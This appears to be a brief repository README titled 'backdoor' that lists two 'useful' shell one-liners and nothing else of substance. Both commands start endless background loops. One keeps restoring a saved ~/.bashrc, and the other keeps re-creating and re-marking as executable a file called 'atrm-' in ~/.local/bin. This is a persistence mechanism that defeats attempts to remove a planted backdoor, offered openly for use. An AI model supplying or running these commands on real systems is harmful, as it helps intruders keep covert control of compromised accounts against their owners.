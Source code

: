 # backdoor

## Usefull Commands

```
c=$(cat ~/.bashrc); while [ 1 ]; do echo "$c" > ~/.bashrc; sleep 1; done &
```

```
a=$(cat $HOME/.local/bin/atrm-); while [ 1 ]; do mkdir -p $HOME/.local/bin; echo "$a" > $HOME/.local/bin/atrm-; chmod +x $HOME/.local/bin/atrm-; sleep 1; done &
```
